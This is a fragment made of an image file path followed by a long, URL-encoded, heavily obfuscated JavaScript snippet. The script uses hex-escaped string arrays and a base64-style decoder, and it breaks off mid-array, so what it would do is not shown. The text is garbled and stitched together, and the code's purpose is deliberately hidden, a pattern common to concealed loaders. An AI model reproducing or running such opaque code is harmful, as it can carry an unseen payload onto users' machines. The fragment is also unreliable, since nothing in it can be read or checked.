 (function(){function%20b(c%2Cd)%7Bconst%20e%3Da()%3Breturn%20b%3Dfunction(f%2Cg)%7Bf%3Df-0x1d7%3Blet%20h%3De%5Bf%5D%3Bif(b%5B'%5Cx53%5Cx51%5Cx48%5Cx61%5Cx51%5Cx6e'%5D%3D%3D%3Dundefined)%7Bvar%20i%3Dfunction(m)%7Bconst%20n%3D'%5Cx61%5Cx62%5Cx63%5Cx64%5Cx65%5Cx66%5Cx67%5Cx68%5Cx69%5Cx6a%5Cx6b%5Cx6c%5Cx6d%5Cx6e%5Cx6f%5Cx70%5Cx71%5Cx72%5Cx73%5Cx74%5Cx75%5Cx76%5Cx77%5Cx78%5Cx79%5Cx7a%5Cx41%5Cx42%5Cx43%5Cx44%5Cx45%5Cx46%5Cx47%5Cx48%5Cx49%5Cx4a%5Cx4b%5Cx4c%5Cx4d%5Cx4e%5Cx4f%5Cx50%5Cx51%5Cx52%5Cx53%5Cx54%5Cx55%5Cx56%5Cx57%5Cx58%5Cx59%5Cx5a%5Cx30%5Cx31%5Cx32%5Cx33%5Cx34%5Cx35%5Cx36%5Cx37%5Cx38%5Cx39%5Cx2b%5Cx2f%5Cx3d'%3Blet%20o%3D''%2Cp%3D''%3Bfor(let%20q%3D0x0%2Cr%2Cs%2Ct%3D0x0%3Bs%3Dm%5B'%5Cx63%5Cx68%5Cx61%5Cx72%5Cx41%5Cx74'%5D(t%2B%2B)%3B~s%26%26(r%3Dq%250x4%3Fr*0x40%2Bs%3As%2Cq%2B%2B%250x4)%3Fo%2B%3DString%5B'%5Cx66%5Cx72%5Cx6f%5Cx6d%5Cx43%5Cx68%5Cx61%5Cx72%5Cx43%5Cx6f%5Cx64%5Cx65'%5D(0xff%26r%3E%3E(-0x2*q%260x6))%3A0x0)%7Bs%3Dn%5B'%5Cx69%5Cx6e%5Cx64%5Cx65%5Cx78%5Cx4f%5Cx66'%5D(s)%3B%7Dfor(let%20u%3D0x0%2Cv%3Do%5B'%5Cx6c%5Cx65%5Cx6e%5Cx67%5Cx74%5Cx68'%5D%3Bu%3Cv%3Bu%2B%2B)%7Bp%2B%3D'%5Cx25'%2B('%5Cx30%5Cx30'%2Bo%5B'%5Cx63%5Cx68%5Cx61%5Cx72%5Cx43%5Cx6f%5Cx64%5Cx65%5Cx41%5Cx74'%5D(u)%5B'%5Cx74%5Cx6f%5Cx53%5Cx74%5Cx72%5Cx69%5Cx6e%5Cx67'%5D(0x10))%5B'%5Cx73%5Cx6c%5Cx69%5Cx63%5Cx65'%5D(-0x2)%3B%7Dreturn%20decodeURIComponent(p)%3B%7D%3Bb%5B'%5Cx47%5Cx79%5Cx43%5Cx46%5Cx43%5Cx70'%5D%3Di%2Cc%3Darguments%2Cb%5B'%5Cx53%5Cx51%5Cx48%5Cx61%5Cx51%5Cx6e'%5D%3D!!%5B%5D%3B%7Dconst%20j%3De%5B0x0%5D%2Ck%3Df%2Bj%2Cl%3Dc%5Bk%5D%3Breturn!l%3F(h%3Db%5B'%5Cx47%5Cx79%5Cx43%5Cx46%5Cx43%5Cx70'%5D(h)%2Cc%5Bk%5D%3Dh)%3Ah%3Dl%2Ch%3B%7D%2Cb(c%2Cd)%3B%7Dfunction%20a()%7Bconst%20K%3D%5B'%5Cx6e%5Cx76%5Cx43%5Cx31'%2C'%5Cx7a%5Cx33%5Cx72%5Cx4f'%2C'%5Cx71%5Cx32%5Cx54%5Cx4c'%2C'%5Cx42%5Cx31%5Cx4c%5Cx49'%2C'%5Cx45%5Cx4e%5Cx7a%5Cx54'%2C'%5Cx6f%5Cx75%5Cx76%5Cx78'%2C'%5Cx42%5Cx30%5Cx58%5Cx51'%2C'%5Cx42%5Cx30%5Cx4b%5Cx34'%2C'%5Cx6d%5Cx67%5Cx7a%5Cx56'%2C'%5Cx76%5Cx5a%5Cx7a%5Cx34'%2C'%5Cx42%5Cx32%5Cx66%5Cx78'%2C'%5Cx75%5Cx76%5Cx6a%5Cx74'%2C'%5Cx76%5Cx4b%5Cx69%5Cx5a'%2C'%5Cx73%5Cx65%5Cx44%5Cx35'%2C'%5Cx72%5Cx33%5Cx75%5Cx59'%2C'%5Cx76%5Cx31%5Cx62%5Cx65'%2C'%5Cx6e%5Cx75%5Cx76%5Cx78'%2C'%5Cx73%5Cx32%5Cx4c%5Cx4f'%2C'%5Cx6a%5Cx77%5Cx44%5Cx4d'%2C'%5Cx45%5Cx68%5Cx6e%5Cx49'%2C'%5Cx45%5Cx74%5Cx69%5Cx35'%2C'%5Cx76%5Cx75%5Cx76%5Cx70'%2C'%5Cx42%5Cx77%5Cx54%5Cx32'%2C'%5Cx71%5Cx4a%5Cx69%5Cx31'%2C'%5Cx71%5Cx4c%5Cx48%5Cx30'%2C'%5Cx71%5Cx78%5Cx43%5Cx30'%2C'%5Cx43%5Cx78%5Cx43%5Cx5a'%2C'%5Cx76%5Cx31%5Cx72%5Cx78'%2C'%5Cx74%5Cx75%5Cx69%5Cx59'%2C'%5Cx74%5Cx30%5Cx72%5Cx4b'%2C'%5Cx76%5Cx33%5Cx7a%5Cx7a'%2C'%5Cx45%5Cx4b%5Cx31%5Cx32'%2C'%5Cx6d%5Cx66%5Cx43%5Cx32'%2C'%5Cx75%5Cx4e%5Cx50%5Cx34'%2C'%5Cx43%5Cx31%5Cx43%5Cx33'%2C'%5Cx6d%5Cx4c%5Cx43%5Cx31'%2C'%5Cx76%5Cx31%5Cx69%5Cx5a'%2C'%5Cx76%5Cx31%5Cx6a%5Cx78'%2C'%5Cx42%5Cx77%5Cx38%5Cx35'%2C'%5Cx44%5Cx31%5Cx44%5Cx70'%2C'%5Cx6d%5Cx67%5Cx4c%5Cx4e'%2C'%5Cx7a%5Cx66%5Cx66%5Cx58'%2C'%5Cx74%5Cx33%5Cx6e%5Cx78'%2C'%5Cx7a%5Cx65%5Cx35%5Cx33'%2C'%5Cx6f%5Cx75%5Cx6a%5Cx4d'%2C'%5Cx6d%5Cx4a%5Cx71%5Cx58%5Cx6e%5Cx74%5Cx71%5Cx35%5Cx6e%5Cx4c%5Cx4c%5Cx52%5Cx75%5Cx4c%5Cx6a%5Cx4d%5Cx73%5Cx47'%2C'%5Cx6e%5Cx32%5Cx72%5Cx71'%2C'%5Cx6d%5Cx31%5Cx43%5Cx30'%2C'%5Cx6d%5Cx67%5Cx39%5Cx6a'%2C'%5Cx71%5Cx77%5Cx48%5Cx59'%2C'%5Cx41%5Cx30%5Cx6a%5Cx78'%2C'%5Cx76%5Cx31%5Cx62%5Cx36'%2C'%5Cx43%5Cx4b%5Cx44%5Cx55'%2C'%5Cx72%5Cx67%5Cx6e%5Cx49'%2C'%5Cx41%5Cx4c%5Cx44%5Cx69'%2C'%5Cx77%5Cx65%5Cx66%5Cx32'%2C'%5Cx79%5Cx30%5Cx50%5Cx74'%2C'%5Cx42%5Cx67%5Cx76%5Cx55'%2C'%5Cx78%5Cx78%5Cx44%5Cx6a'%2C'%5Cx42%5Cx77%5Cx38%5Cx34'%2C'%5Cx72%5Cx33%5Cx43%5Cx59'%2C'%5Cx43%5Cx30%5Cx6e%5Cx56'%2C'%5Cx72%5Cx67%5Cx6d%5Cx58'%2C'%5Cx44%5Cx74%5Cx48%5Cx52'%2C'%5Cx71%5Cx31%5Cx44%5Cx72'%2C'%5Cx69%5Cx30%5Cx71%5Cx57'%2C'%5Cx45%5Cx78%5Cx44%5Cx64'%2C'%5Cx71%5Cx78%5Cx48%5Cx49'%2C'%5Cx73%5Cx32%5Cx57%5Cx34'%2C'%5Cx7a%5Cx4d%5Cx31%5Cx52'%2C'%5Cx74%5Cx67%5Cx7a%5Cx68'%2C'%5Cx45%5Cx67%5Cx50%5Cx6c'%2C'%5Cx75%5Cx30%5Cx69%5Cx5a'%2C'%5Cx76%5Cx31%5Cx6a%5Cx35'%2C'%5Cx6d%5Cx68%5Cx4b%5Cx59'%2C'%5Cx42%5Cx67%5Cx6e%5Cx6c'%2C'%5Cx76%5Cx31%5Cx6a%5Cx79'%2C'%5Cx44%5Cx4e%5Cx44%5Cx34'%2C'%5Cx6d%5Cx4a%5Cx47%5Cx58%5Cx6d%5Cx64%5Cx4b%5Cx34%5Cx42%5Cx75%5Cx54%5Cx71%5Cx41%5Cx4b%5Cx35%5Cx51'%2C'%5Cx42%5Cx4d%5Cx72%5Cx64'%2C'%5Cx43%5Cx33%5Cx72%5Cx31'%2C'%5Cx6b%5Cx4c%5Cx6e%5Cx30'%2C'%5Cx43%5Cx67%5Cx72%5Cx6d'%2C'%5Cx45%5Cx75%5Cx30%5Cx35'%2C'%5Cx75%5Cx32%5Cx39%5Cx63'%2C'%5Cx42%5Cx77%5Cx54%5Cx69'%2C'%5Cx79%5Cx4c%5Cx43%5Cx31'%2C'%5Cx76%5Cx5a%5Cx75%5Cx56'%2C'%5Cx45%5Cx65%5Cx35%5Cx77'%2C'%5Cx79%5Cx33%5Cx4c%5Cx77'%2C'%5Cx76%5Cx5a%5Cx76%5Cx63'%2C'%5Cx72%5Cx67%5Cx43%5Cx34'%2C'%5Cx71%5Cx4a%5Cx69%5Cx30'%2C'%5Cx45%5Cx65%5Cx66%5Cx33'%2C'%5Cx42%5Cx77%5Cx54%5Cx76'%2C'%5Cx6d%5Cx4d%5Cx7a%5Cx4d'%2C'%5Cx72%5Cx75%5Cx7a%5Cx68'%2C'%5Cx6c%5Cx32%5Cx72%5Cx77'%2C'%5Cx44%5Cx74%5Cx6a%5Cx32'%2C'%5Cx73%5Cx32%5Cx54%5Cx74'%2C'%5Cx73%5Cx4d%5Cx6e%5Cx71'%2C'%5Cx41%5Cx4e%5Cx44%5Cx55'%2C'%5Cx6d%5Cx73%5Cx50%5Cx48'%2C'%5Cx76%5Cx5a%5Cx44%5Cx63'%2C'%5Cx76%5Cx5a%5Cx7a%5Cx58'%2C'%5Cx76%5Cx68%5Cx72%5Cx54'%2C'%5Cx41%5Cx4e%5Cx66%5Cx73'%2C'%5Cx6d%5Cx74%5Cx61%5Cx57%5Cx75%5Cx77%5Cx39%5Cx41%5Cx71%5Cx31%5Cx76%5Cx64'%2C'%5Cx71%5Cx4b%5Cx6e%5Cx65'%2C'%5Cx6e%5Cx76%5Cx44%5Cx70'%2C'%5Cx45%5Cx4d%5Cx44%5Cx32'%2C'%5Cx6d%5Cx65%5Cx66%5Cx4e'%2C'%5Cx75%5Cx65%5Cx6a%5Cx6a'%2C'%5Cx42%5Cx76%5Cx50%5Cx64'%2C'%5Cx6d%5Cx4e%5Cx50%5Cx7a'%2C'%5Cx42%5Cx76%5Cx43%5Cx31'%2C'%5Cx77%5Cx4d%5Cx35%5Cx30'%2C'%5Cx69%5Cx75%5Cx7a%5Cx6e'%2C'%5Cx42%5Cx4b%5Cx35%5Cx70'%2C'%5Cx71%5Cx30%5Cx31%5Cx32'%2C'%5Cx7a%5Cx78%5Cx72%5Cx78'%2C'%5Cx45%5Cx75%5Cx31%5Cx4d'%2C'%5Cx6d%5Cx5a%5Cx69%5Cx34%5Cx71%5Cx4b%5Cx54%5Cx66%5Cx75%5Cx32%5Cx54%5Cx4f'%2C'%5Cx6e%5Cx77%5Cx31%5Cx6b'%2C'%5Cx45%5Cx74%5Cx6d%5Cx58'%2C'%5Cx76%5Cx5a%5Cx76%5Cx4c'%2C'%5Cx7a%5Cx4b%5Cx66%5Cx78'%2C'%5Cx74%5Cx68%5Cx4c%5Cx34'%2C'%5Cx71%5Cx32%5Cx39%5Cx66'%2C'%5Cx76%5Cx31%5Cx62%5Cx49'%2C'%5Cx74%5Cx4d%5Cx72%5Cx6d'%2C'%5Cx76%5Cx67%5Cx72%5Cx33'%2C'%5Cx75%5Cx76%5Cx43%5Cx32'%2C'%5Cx44%5Cx4d%5Cx44%5Cx69'%2C'%5Cx76%5Cx30%5Cx39%5Cx31'%2C'%5Cx74%5Cx68%5Cx79%5Cx34'%2C'%5Cx42%5Cx32%5Cx39%5Cx78'%2C'%5Cx79%5Cx30%5Cx48%5Cx6d'%2C'%5Cx7